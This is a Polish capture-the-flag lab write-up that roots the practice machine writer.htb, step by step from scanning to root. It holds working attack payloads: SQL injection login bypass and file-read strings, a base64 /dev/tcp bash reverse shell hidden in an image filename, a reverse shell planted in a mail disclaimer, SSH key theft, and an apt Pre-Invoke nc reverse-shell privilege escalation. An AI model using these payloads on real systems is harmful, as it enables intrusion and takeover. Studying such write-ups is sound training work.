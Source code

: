 # ZTPPt

## Utworzenie połączenia z maszyną
Pobrany został plik konfiguracyjny OpenVPN na maszynę wirtualną z zainstalowanym systemem Kali Linux. Komenda do wywołania połaczenia VPN:
```
sudo openvpn lab.vpn
```

## Przebieg laboratorium
* Pierwszym krokiem było wykorzystanie oprogramowania nmap w celu rekonensanu aktywnego, użyto w tym celu komendy:
```
sudo nmap -sS -sV -sC <ip_address>
- sS - TCP SYN skan
- sV - sprawdzenie możliwosci występowania wersji oprogramowania na otwartym porcie
- sC - wykonanie podstawowych skryptów
```
Wynik skanowania

![Wynik skanowania](https://user-images.githubusercontent.com/52716721/141511219-992c3762-5266-45f4-82fd-62ae04e1c934.png)

* Biorąc pod uwagę otwarty port 80 oraz tytuł odpowiedzi z serwera HTTP, kolejne kroki będą prowadzone na stronie WWW, prezentującej się następująco
![Stronawww](https://user-images.githubusercontent.com/52716721/141511808-81ba4197-1cfd-4d19-9234-3433a15dec20.png)

* W celu znalezienia interesujących podstron, wykorzystane zostało wbudowane narzędzie wfuzz z atakiem słownikowym:
```
wfuzz -w /usr/share/wfuzz/wordlist/general/megabeast.txt -u http://10.10.11.101/FUZZ --hc 404
- w - ścieżka do słownika z podstronami
- u - adres strony z dodatkiem FUZZ w celu skanowania
- hc 404 - pominięcie podstron z odpowiedzią 404
```
Wynik skanowania wfuzz

![wfuzz](https://user-images.githubusercontent.com/52716721/141513351-5ff7381f-e698-43fc-89c7-81208a4f3e6c.png)

* Na stronie dostępny jest panel logowania administratora, pierwszym krokiem zostało sprawdzenie czy zadziała SQLi w tym celu użyto w polu loginu frazy `username ' or '1'='1`. Logowanie powiodło się, następnie wykorzystano sqlmap w celu sprawdzenia jaka jest skonfigurowana baza danych i użyto danych z formularza do logowania `uname=username'+or+'1'='1&password=test`.
Wynik prezentuje się następująco:

![image](https://user-images.githubusercontent.com/52716721/143478884-83138642-c297-49ad-b8b9-b0a13311ad73.png)

* Kolejnym krokiem była próba odczytania plików znajdujących się na maszynie, wykorzystano do tego program Burp Suite i payload `uname=username' UNION ALL SELECT NULL,load_file("/etc/apache2/sites-enabled/000-default.conf"),NULL,NULL,NULL,NULL-- -&password=test`. Odczyt pliku 000-default spowodowany jest występującym serwisem Apache, w podanym pliku konfiguruje się wirtualny host dla danej domeny, odczyt z folderu sites-avaliable mógłby nie zadziałać gdyż musi występować symlink w folderze enabled.
![image](https://user-images.githubusercontent.com/52716721/143478354-b7a9d660-18e8-4735-8002-3e3601dabfc1.png)

* Następnie odczytany został plik writer.wsgi (`uname=username' UNION ALL SELECT NULL,load_file("/var/www/writer.htb/writer.wsgi"),NULL,NULL,NULL,NULL-- -&password=test`), w którym importowany jest plik `__init__.py`.
![image](https://user-images.githubusercontent.com/52716721/143479464-bab8af2c-5c28-4e29-bc21-90d08b245957.png)
![image](https://user-images.githubusercontent.com/52716721/143479566-63bc8a3a-1baa-404d-bb12-aa454b7ced0a.png)

* Okazuje się, że aplikacja napisana została we Flask'u, dodając Stories poprzez panel admina, można podać dodatkowy parametr przy pomocy Burp'a `image_url`, który następnie jest przenoszony oraz otwierany co udostępnia możliwość stworzenia reverse shella. Stworzony został złośliwy plik w formacie jpg, zawierający w nazwie payload w base64 `echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/<ip>/9091 0>&1"' | base64`. W parametrze image_url podana została ścieżka do pliku, który po zapisaniu znajduje się w folderze static `file:///var/www/writer.htb/writer/static/img/<plik>`. Wynik prezentuje się poniżej.
![image](https://user-images.githubusercontent.com/52716721/141533167-0eb874b8-da4b-470f-af05-8a3f6688f1bd.png)
![image](https://user-images.githubusercontent.com/52716721/141533062-d4f0b4b6-4639-486f-bd20-947c012012d5.png)

* Dzięki sqlmap otrzymano nazwę serwisu bazodanowego MariaDB, po udanym przejęciu sesji www-data, odnaleziony został plik konfiguracyjny mariadb.cnf, gdzie podane zostały dane do zalogowania w bazie deweloperskiej.
![image](https://user-images.githubusercontent.com/52716721/141533938-7c74d7bb-2572-46cb-9c1b-6d3e69b38044.png)

* Po udanym połączeniu z bazą odczytane zostały możliwe tabele, najciekawszą z nazwy jest auth_user, w niej znaleziony został użytkownik kyle wraz z zahashowanym hasłem.
![image](https://user-images.githubusercontent.com/52716721/143593639-a6682460-2692-498d-8c02-b000b1827bf3.png)
![image](https://user-images.githubusercontent.com/52716721/143593570-4da314d9-aa10-49db-b95c-724f8ad3a44f.png)

* W celu odczytania hasła wykorzystany został atak słownikowy z plikiem rockyou znajdującym się pod linkiem https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz oraz program hashcat, który ujawnił hasło marcoantonio
![image](https://user-images.githubusercontent.com/52716721/143597265-0dc3a738-8d06-4216-8612-f284a6a84b5a.png)

* Następnie sprawdzony został użytkownik czy jest możliwość połączenia przez ssh. Wynikiem był dostęp do jednego z użytkowników systemu.

![image](https://user-images.githubusercontent.com/52716721/144602561-4c26a048-5eaa-4fde-b787-32728e26c41a.png)

* Użytkownik należy do niestandardowej grupy filter, która jest odpowiedzialna za pliki prezentujące się na poniższym zrzucie.
![image](https://user-images.githubusercontent.com/52716721/143599339-fb5de575-7cf1-4538-8bd8-96eab3fa917c.png)

* Jako iż plik disclaimer jest wykorzystywany do podpisywania maili, dodano w nim reverse shell taki jak w przypadku pliku na stronie internetowej oraz przesłano maila z wykorzystaniem skryptu w pythonie. W folderze disclaimer znaleziony został adres, który można wykorzystać właśnie do przesłania maila.
![image](https://user-images.githubusercontent.com/52716721/144605156-a1f146cf-b493-4508-95da-f531e2ffb9d5.png)
![image](https://user-images.githubusercontent.com/52716721/144605209-7044ad3a-a873-4c82-839c-72419f0c3088.png)

![image](https://user-images.githubusercontent.com/52716721/144605193-ac75e000-499d-4180-932f-8f7f1cda4ca0.png)
* W czasie wysyłania maila, nasłuchiwany był port 9091 podany w reverse shell w pliku disclaimer, dzięki czemu uzyskany został użytkownik john. 

![image](https://user-images.githubusercontent.com/52716721/144605478-496530d0-d519-4d03-b875-6a1f7427ec16.png)

* Aby połączyć się do niego poprzez ssh, skopiowany został klucz prywatny z folderu `.ssh` użytkownika.
![image](https://user-images.githubusercontent.com/52716721/144605507-4d6e177b-6f35-4a40-b73a-b2c3f1724f88.png)

* Połączenie ssh prezentuje się następująco.
![image](https://user-images.githubusercontent.com/52716721/144605856-11d72409-960a-4db4-b594-a08a2f4a88dd.png)

* Użytkownik john również miał niestandardową grupę management i posiadał prawa do folderu apt.conf.d
![image](https://user-images.githubusercontent.com/52716721/144606016-8f5f427c-607b-4b3c-b29d-79cced652c14.png)
![image](https://user-images.githubusercontent.com/52716721/144606001-356798db-63d1-410d-80f7-bea6f41b5354.png)

* Znaleziona została możliwość eskalacji uprawnień z wykorzystaniem apt https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/ w tym celu należy przejść do podanego folderu i wykonać payload tworzący reverse shell `echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 4444 >/tmp/f"};' > pwn`. W innym oknie nasłuchiwany został port 4444, dzięki czemu uzyskano dostęp do roota. Wynik prezentuje się następująco:
![image](https://user-images.githubusercontent.com/52716721/144607092-e7cf791d-4725-4600-8777-a2528130858d.png)

* Ostatnim krokiem było odczytanie flagi z pliku root.txt

![image](https://user-images.githubusercontent.com/52716721/144607190-4eaa5b07-7777-4eda-8404-74a5b0b4d29b.png)
